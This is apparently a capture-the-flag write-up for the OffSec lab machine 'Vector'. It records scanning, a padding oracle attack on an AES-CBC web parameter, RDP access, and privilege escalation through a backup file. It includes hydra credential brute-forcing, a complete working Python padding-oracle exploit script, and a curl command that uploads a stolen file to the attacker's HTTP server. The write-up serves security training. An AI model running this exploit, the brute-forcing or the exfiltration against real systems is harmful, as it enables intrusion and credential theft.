# Vector

## Enumeration

I started with a full Nmap TCP SYN scan:


```bash
sudo nmap -sS -Pn -A -p- -o ./enumeration/external_tcp_all.nmap -e tun0 -T4 vector.offsec
```



```
map scan report for vector.offsec (192.168.176.119)
Host is up (0.055s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
2290/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: VECTOR
|   NetBIOS_Domain_Name: VECTOR
|   NetBIOS_Computer_Name: VECTOR
|   DNS_Domain_Name: vector
|   DNS_Computer_Name: vector
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-08T23:23:58+00:00
| ssl-cert: Subject: commonName=vector
| Not valid before: 2024-03-13T17:28:21
|_Not valid after:  2024-09-12T17:28:21
|_ssl-date: 2024-07-08T23:24:38+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-07-08T23:24:01
|_  start_date: N/A
```


Just to be sure I start a UDP scan as well. This is often useless but it is better to start it and not need it than not:


```bash
sudo nmap -sU -A -o ./enumeration/udp.nmap -T4 vector.offsec
```


### Anonymous Service Enumeration

#### FTP

I try an anonymous FTP connection but it fails:

<figure><figcaption><p>Anonymous login</p></figcaption></figure>

I try running some FTP default passwords through hydra but no luck:


```bash
hydra -f -I -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://vector.offsec
```


#### RPC and SMB

I also try RPC and SMB via rpcclient and smbclient respectively. Neither gives me anonymous/guest access:

<figure><figcaption><p>No luck with other anonymous services</p></figcaption></figure>

Unfortunately the anonymous route seems to have been closed.

#### SNMP

I do try snmpwalk before I leave this section but there is no response:

```
snmpwalk -v2c -c public 192.168.176.119 > ./enumeration/snmpwalk.txt
```

<figure><figcaption><p>No SNMP</p></figcaption></figure>

### Web Enumeration

The main route that still seems open is the HTTP server at port 80. I head there in a browser. It is just a login portal with a meme on it:

<figure><figcaption><p>Login landing page</p></figcaption></figure>

I use a CEwL-generated wordlist combined with Seclist's big.txt and start a feroxbuster session:


```bash
feroxbuster -L 20 -w ./enumeration/web_enum.txt -k -x @/usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt -C 404 -E -r -u http://vector.offsec -o ./enumeration/p80.feroxbuster
```


I try a couple standard guesses at the login portal `admin:admin`, `admin:password`, that kind of thing. No luck.

### Port 2290

The moral of this story is to try all ports. I spent way too long looking at 80 thinking it was the only way in. When I finally paid enough attention I noticed an unexamined port, 2290. It seems to be HTTP. I head there in my browser:

<figure><figcaption><p>Landing page on 2290</p></figcaption></figure>

So I add a ?c=0 parameter to the URL:

<figure><figcaption><p>C parameter added</p></figcaption></figure>

I try a bunch of different things but every single thing I try just loads a 0 on the page. Not really sure what this does. I start looking at Burp to see if I am missing anything and I notice something weird:

<figure><figcaption><p>Ciphertext</p></figcaption></figure>

Out of curiosity I decide to see what happens if I put that as `?c` and this time the page gave back 1:

<figure><figcaption><p>Ciphertext as c</p></figcaption></figure>

### AES-256-CBC-PKCS7

The comment tells me about how the ciphertext was likely created. It is probably an 256-Bit AES key run in cipher block chaining (CBC) mode. [PKCS #7](https://en.wikipedia.org/wiki/PKCS\_7) is a standard for storing encrypted data. In this case it has to do with how the padding is applied since CBCs can only work on data that is perfectly block-aligned.

While I am researching PKCS7 I stumble across [this comment](https://github.com/mogol/flutter\_secure\_storage/issues/584#issue-1804885560) on a random GitHub repo. It mentions that PKCS7 (and PKCS5) are vulnerable to "oracle padding attacks in combination with CBC mode of operation." Interesting.

## Foothold

### Padding Oracle Attacks

[Padding oracle attacks](https://en.wikipedia.org/wiki/Padding\_oracle\_attack) use the _padding validation_ of a cryptographic message to decrypt the ciphertext. In cryptography, variable-length plaintext messages often have to be padded (expanded) to be compatible with the underlying cryptographic primitive. The attack relies on having a "_padding oracle_" who freely responds to queries about whether a message is correctly padded or not. I am thinking port 2290 might serve this purpose.

This [Medium article](https://medium.com/@masjadaan/oracle-padding-attack-a61369993c86) details the operation of CBCs, PKCS 7 and oracle padding attacks.

#### PKCS 7

This will cover how PKCS 7 actually encodes values. The pseudo-code for the implementation is:

```
Message m
Block Length L

if len(m) % L == 0: Append L bytes (with value L) to m
else:
    Append (L - (len(m) % L)) bytes to m (each with value of (L - (len(m) % L)))
```

This makes more sense with examples. First consider `hello` being encrypted with a block size of 16. When hex-encoded it is `0x68656c6c6f`. It is 5 bytes long which is 11 bytes below the block size. The missing 11 bytes will be filled in (padded) with a value of 11 in hex, `0x0b`. So the padded string (pre-encryption) is `0x68656c6c6f0b0b0b0b0b0b0b0b0b0b0b`.

Now consider `hi` encrypted with the same 16 byte block. When hex-encoded `hi` becomes `0x6869`. This is only 2 bytes, 14 short of the block size. The missing 14 bytes will be appended and filled with 14 in hex, `0x0e`. So the padded string would be `0x68690e0e0e0e0e0e0e0e0e0e0e0e0e0e`.

Lastly consider what happens when the message matches the block size, e.g. when encrypting `OopsSixteenBytes`. In this case a full block (16-bytes) of padding will be appended. It will be filled with the value 16 in hex, `0x10`. So hex-encoded `OopsSixteenBytes` is `0x4f6f70735369787465656e4279746573`, which is then padded with 16 bytes of `0x10`. The final pre-encryption string would be: `0x4f6f70735369787465656e427974657310101010101010101010101010101010`.

#### Cipher Block Chaining

A cipher block chain encryption algorithm works by breaking the plaintext into chunks (blocks) which are encoded individually. The chain aspect comes in because the encrypted result of the first block is XORed with the plaintext of the second block, the result of which is then encrypted as a block:

<figure><figcaption><p>AES CBC encryption</p></figcaption></figure>

The _initialization vector_ (IV) is needed because the first block does not have anything it can be XORed against as a chain. Therefore a random first "block" must be provided as an IV. Decryption basically just reverses this process:

<figure><figcaption><p>AES CBC decryption</p></figcaption></figure>

The IV must be XORed with the decrypted results of the first block in order to recover the plaintext. This means that it is likely the IV is part of the ciphertext [recovered above](vector.md#port-2290). Under this interpretation the "ciphertext" is actually 2 parts:

1. **IV:** `4358b2f77165b5130e323f067ab6c8a9`
2. **Cipher Text:** `2312420765204ce350b1fbb826c59488`

With this in mind I can begin creating a script to leak the plaintext.

### Leak Script

#### Determining Message Length

The methodology for determining the message length involves manipulating the IV. Because the IV is XORed with the first block of plain text, a padding error (`0` returned by site for a particular `?c=`) tells us where the message ends and the padding begins.

To do this I will work byte-by-byte from the "left" of the IV, iteratively replacing each byte with a null byte 0x00 until I find an error. Once an error is found I know I crossed the threshold and can determine the message length.

In this case the IV is the first 16 bytes of the ciphertext [recovered above](vector.md#port-2290). `0x4358b2f77165b5130e323f067ab6c8a9`. So the first request will use an IV of `0x0058b2f77165b5130e323f067ab6c8a9`, the second `0x0000b2f77165b5130e323f067ab6c8a9`, and so on. The first 12 requests all receive a `1` response but the 13th gets a `0` (error). From this I can conclude that that the message is 12 bytes.

To illustrate the logic, assume that the server was expecting 12 bytes of plaintext. Given what is known about the structure of [PKCS7 padding](vector.md#pkcs-7), if there are 12 bytes of plaintext, one must add four bytes of padding (`0x04040404`), making the encoded message block: `XXXXXXXXXXXXXXXXXXXXXXXX04040404`. It is precisely this logic that was broken when I submitted the 13th request with the first 13 bytes of `0x00`s. One of the expected 4 padding bytes of `0x04040404` was replaced with `0x00`. Meaning the padding was `0x00040404` instead and causing an error.

This technique is automated in the `__determine_message_length()` function of `leak.py` below.

#### Brute Forcing Byte-by-Byte

Once I have a message length I can begin working on decoding the plaintext. Recall the CBC security  notion: “If as much as a single bit about decrypted ciphertext is leaked, the adversary can learn the entire plaintext message.”

In this case, 32 bits have just been leaked since I know the padding scheme and the message length. Therefore I know the last 32 bits of the plaintext (padding of `0x04040404`). Conveniently I also know the IV this was XORed with so it is possible to begin backing out the text.

To understand this concept consider the decryption process for a single block (the first block specifically):

<figure><figcaption><p>Decryption of the first block</p></figcaption></figure>

The ciphertext is initially decrypted by AES using the hidden secret key on the server, generating an intermediate value, referred to as the **keystream**. Subsequently, this keystream is XORed with the IV to produce the plaintext. This attack revolves around the concept of recovering the keystream value. Once obtained, it becomes straightforward to deduce the plaintext without knowledge of the secret key.

To achieve this, manipulate the original IV. Knowing that the encrypted data comprises the IV and the original message, we can employ our own modified IV. Initially, we use an IV with all zero values for our first attempt.

This explanation is copied from an example that was recovering an encrypted web cookie not whatever this example is recovering. So instead of cookie think of it as the [cipher text portion](vector.md#cipher-block-chaining) of the recovered ciphertext. Anyway, when submitting the first modified IV of all `0x00` bytes the server returns a padding error (`0` on webpage in this example). This is because after decrypting the block it checked the last byte and found it was not a valid padding byte as defined by PKCS 7:

<figure><figcaption><p>Padding error</p></figcaption></figure>

The last byte of the IV is incremented until it does not cause a padding error. The message that is decrypted is surely unintelligible garbage but that is not what I care about. The point is this is tricking the "oracle" into thinking I had a message that was 15 bytes long and had one padding byte which would be `0x01` due to the workings of PKCS 7. So when I eventually find a value that does not return an error it means it decrypted to unintelligible garbage _that ended in_ `0x01`. Knowing this I can extrapolate what was in the keystream. E.g. say the padding error stopped when I incremented the last IV byte to 0x35. That allows me to back into the keystream value knowing that `0x01 ^ 0x35 = 0x34` (XOR operation `^`). This gives me the last byte of the keystream:

<figure><figcaption><p>Leaking the last byte of the keystream</p></figcaption></figure>

I continue this process on to the 15th byte. This time I am sending an IV that I want to trick the server into believing is a 14 byte message with 2 padding bytes. Due to PKCS7 the last 2 bytes must be `0x02`. The last byte of this modified IV will be `0x36` because I know the keystream byte is `0x34` and `0x36 ^ 0x34 = 0x02`. This means I am essentially incrementing the 15th byte until I get it to something that XORs with the keystream to `0x02`. In this example it _coincidentally_ happens again at `0x35` which tells me the 15th byte of the keystream is `0x37` because `0x37 ^ 0x35 = 0x02`:

<figure><figcaption><p>Leaking penultimate byte of the keystream</p></figcaption></figure>

This basic premise is repeated until the entire keystream is known. From here leaking the plaintext is as simple as XORing the keystream with the original IV as this is exactly how the decryption is supposed to be done.

This premise is automated in the `__brute_force_message()` function of the script below.

#### Complete Script

The pieces above were combined into a single point-and-click tool that I called `leak.py`:


```python
#!/usr/bin/python3

import sys
import requests
import argparse
import logging
from bs4 import BeautifulSoup as bs


# Configure logger
logger = logging.getLogger(__name__)
formatter = logging.Formatter('[%(name)s:%(filename)s:%(funcName)s() - %(lineno)s][%(levelname)7s] %(message)s')
ch = logging.StreamHandler()
ch.setFormatter(formatter)
logger.addHandler(ch)


BLOCK_SIZE = 16
MAX_BYTE_VAL = 255


def main(args): 

    # Set level
    if (args.verbose == 0): logger.setLevel(logging.WARNING)
    elif (args.verbose == 1): logger.setLevel(logging.INFO)
    else: logger.setLevel(logging.DEBUG)

    iv_orig = b'4358b2f77165b5130e323f067ab6c8a9'
    iv_bytes = __bytes_to_array(iv_orig)

    cipher_block = b'2312420765204ce350b1fbb826c59488'
    cipher_bytes = __bytes_to_array(cipher_block)


    s = requests.Session()
    init_connection = s.get(args.target)
    if init_connection.status_code != 200:
        logger.error(f'Error occurred during initial connection. Status code {init_connection.status_code} returned')
    else: logger.info(f'Successfully created session with {args.target}')

    
    msg_size = __determine_message_length(s, iv_orig, cipher_block, args.target)
    msg_text = __brute_force_message(
        session=s,
        message_length=msg_size,
        iv=iv_bytes,
        orig_cipher_block=cipher_block,
        url_base=args.target
    )
    
    sys.exit(0)


def __brute_force_message(
        session: requests.Session,
        message_length: int,
        iv: list,
        orig_cipher_block: bytes,
        url_base: str
) -> str:

    padding_byte = BLOCK_SIZE - message_length

    message_bytes = []
    for i in range(0, padding_byte, 1): message_bytes.insert(0, padding_byte)

    for i in range(message_length-1, -1, -1):
        logger.info(f'Brute-forcing position {i+1}')
        iv_prefix = b''
        iv_suffix = b''
        iv_target = iv[i]

        for j in range(0, i, 1): iv_prefix += __get_byte_hex(iv[j])
        for j in range(i + 1, len(iv), 1):
            iv_suffix += __get_byte_hex(iv[j] ^ message_bytes[j-i-1] ^ (BLOCK_SIZE-i))

        # Brute-forcing
        for j in range(0, MAX_BYTE_VAL+1, 1):
            str_byte = __get_byte_hex(j)
            full_cipher_text = iv_prefix + str_byte + iv_suffix + orig_cipher_block

            check_resp = __submit_cipher_text(session, full_cipher_text, url_base)
            if check_resp == 1:
                byte = j ^ (BLOCK_SIZE-i) ^ iv_target
                message_bytes.insert(0, byte)

                logger.debug(f'Found byte: 0x{str_byte}')
                logger.info(f'Found char: {chr(byte)}')
                break

    plaintext = ''
    for byte in message_bytes: plaintext += chr(byte)
    logger.info(f'Plaintext compromised: "{plaintext}"')
    return plaintext


def __bytes_to_array(bytes_str):
    if len(bytes_str) % 2 != 0:
        raise Exception('Cannot convert odd-length string')
    
    bytes_list = []
    for i in range(0, len(bytes_str), 2):
        ind_byte = bytes_str[i:i+2]
        int_rep = int(ind_byte, 16)
        bytes_list.append(int_rep)

    return bytes_list


def __get_byte_hex(byte_val: int):
    byte_hex = hex(byte_val).replace('0x', '')
    if len(byte_hex) == 1: byte_hex = '0' + byte_hex
    return byte_hex.encode('utf-8')


def __determine_message_length(session: requests.Session, iv: bytes, cipher_block: bytes, url_base: str) -> int:
    logger.debug(f'Attempting to determine message length')
    for i in range(0,BLOCK_SIZE, 1):
        iv_mod = (b'00' * i) + iv[(i*2):len(iv)]
        logger.debug(f'Testing modivied IV of "{iv_mod.decode("utf-8")}"')

        mod_cipher = iv_mod + cipher_block
        mod_resp = __submit_cipher_text(session=session, cipher_text=mod_cipher, url_base=url_base)

        if mod_resp == 0:
            logger.info(f'Message length of {i-1} bytes determined')
            return i-1


def __submit_cipher_text(session: requests.Session, cipher_text: bytes, url_base: str) -> int:
    submit_url = f'{url_base}/?c={cipher_text.decode("utf-8")}'
    submission_resp = session.post(submit_url)

    if submission_resp.status_code != 200:
        logger.error(f'Status code {submission_resp.status_code} returned from URL "{submit_url}"')
        raise Exception('Cipher text submission failed')
    
    else:
        # logger.debug(f'Successfully submitted cipher text "{cipher_text}"')
        soup = bs(submission_resp.text, 'html.parser')
        label_elem = soup.find(attrs={'id':'MyLabel'})
        logger.debug(f'Cipher text "{cipher_text}" got response {label_elem.text}')
        return int(label_elem.text)


def __parse_args():
    parser = argparse.ArgumentParser()

    parser.add_argument(
        '-v', '--verbose',
        help="Verbosity",
        default=0,
        action='count'
    )

    parser.add_argument(
        '-t', '--target',
        type=str, nargs='?', required=True,
        help="URL of target"
    )

    parsed = parser.parse_args()
    return parsed


if __name__ == "__main__":
    arguments = __parse_args()
    main(arguments)
```


When I ran the script it successfully leaked the password:

<figure><figcaption><p>Password leaked</p></figcaption></figure>

At this point I start using the password with RDP. I try `victor` first since that was the name in the HTML comment where I first discovered the ciphertext. It works and I can access the machine via RDP:

<figure><figcaption></figcaption></figure>

One side note, I tried running the credentials through CrackMapExec and when run it was showing the credentials as invalid. Not sure why but it is worth keeping in mind as I have seen this before specifically with RDP and CrackMapExec:

<figure><figcaption><p>CrackMapExec saying no RDP access</p></figcaption></figure>

User access achieved as `victor`.

## Privilege Escalation

I start with a winPEAS scan. I spend some time looking at CVE-2020-1013 which was listed as a potential avenue. I could not get the PoC code I found compiled so I started looking elsewhere (`dotnet msbuild ...` command was failing with an error message about a type initializer throwing an exception).

As I was manually enumerating I found something potentially interesting:

<figure><figcaption><p>backup.rar file</p></figcaption></figure>

Fortunately I found curl on the machine and can just upload it to my waiting HTTP server:

```shell-session
curl -F "file=@backup.rar" http://192.168.45.236/upload.php
```

### Examining backup.rar

I create a directory called `/backup` and move my copy of the `backup.rar` file there. I initially tried decompressing it with the `7z +x` command but it kept giving an error and then it would output an empty file called `backup.txt`.

Instead I found unrar was a superior tool. Decoding can be done with the command:

```bash
unrar e backup.rar
```

Once I extracted the only file `backup.txt` I found it contained what looked like base64 encoded text. I tried decoding it and foud what appears to be a credential set for Administrator:

<figure><figcaption><p>Examining backup.rar</p></figcaption></figure>

&#x20;I go back to my RDP session as victor, close cmd.exe, and reopen it via Run As Administrator. When prompted i use the credentials discovered above () and successfully launch an Administrator command prompt:

